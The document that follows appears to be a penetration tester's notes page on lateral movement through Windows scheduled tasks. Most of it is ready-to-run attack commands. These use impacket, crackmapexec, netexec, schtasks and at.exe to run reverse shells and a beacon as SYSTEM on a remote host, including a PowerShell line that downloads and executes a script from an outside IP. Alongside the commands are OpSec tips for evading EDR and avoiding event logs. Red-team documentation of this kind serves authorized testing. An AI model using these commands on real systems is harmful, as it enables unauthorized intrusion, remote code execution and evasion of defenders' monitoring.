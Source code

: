 ```yaml
---
title: Lateral Movement with Scheduled Tasks
---
```


[[notes/lateral-movement/index]] by using the [MS-TSCH](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/) protocol to create or update scheduled tasks and execute commands in system context.

Create a scheduled task over a named pipe on SMB to execute a reverse shell.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-atexec -k -no-pass -silentcommand srv01.corp.local 'powershell.exe -ep bypass -c iex(irm 192.168.80.185/one.ps1)'
    impacket-atexec -k -no-pass -silentcommand srv01.corp.local "powershell.exe -ep bypass -e $(iconv -t utf16le ./shell.ps1 | base64 -w0)"
    ~~~

    **OpSec:**
    The command is executed with `cmd.exe`, the output is written to a file and downloaded over SMB.
    This can be avoided by specifying `-nooutput`.

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb srv01.corp.local -u jdoe -p 'passw0rd' --no-output --exec-method atexec -x "powershell.exe -ep bypass -e $(iconv -t utf16le ./shell.ps1 | base64 -w0)"
    ~~~

    **OpSec:** Many EDRs detecte the use of `-X`.

=== "schtasks"
    ~~~ bat
    schtasks.exe /s srv01.corp.local /create /tn "Background Task 72" /tr "c:\windows\temp\beacon.exe" /ru "NT Authority\SYSTEM" /sc once /st 12:00
    schtasks.exe /s srv01.corp.local /run /tn "Background Task 72"
    schtasks.exe /s srv01.corp.local /delete /tn "Background Task 72" /f
    ~~~

=== "at"
    Start a reverse shell at 14:00.

    ~~~ bat
    at.exe \\srv01.corp.local 14:00 "powershell.exe -ep bypass -e %payload%"
    ~~~

    Cleanup.

    ~~~ bat
    at.exe \\srv01.corp.local
    at.exe \\srv01.corp.local %id% /delete /yes
    ~~~

> **OpSec:**
> To avoid detections modify the command of an existing task or overwrite the binary of an existing task.

Execute a command in the context of a logged-in user ([source](https://github.com/Pennyw0rth/NetExec/pull/54)).

=== "[[notes/tools/netexec]]"
    ~~~ bash
    netexec smb srv01.corp.local --local-auth -u administrator -p 'passw0rd' -M schtask_as -o CMD='whoami' USER='corp.local\jdoeadm'
    ~~~

Untested tools:

- [SharpGhostTask](https://github.com/dmcxblue/SharpGhostTask)
- [GhostTask](https://github.com/netero1010/GhostTask), create scheduled task trough direct registry interaction, no event generated
- [TaskShell](https://github.com/RiccardoAncarani/TaskShell), modifies the command of a scheduled task

References:

- [Scheduled task tampering](http://web.archive.org/web/20221111232306/https://labs.withsecure.com/publications/scheduled-task-tampering), as the machine account create a scheduled task without logging events by directly writing registry keys
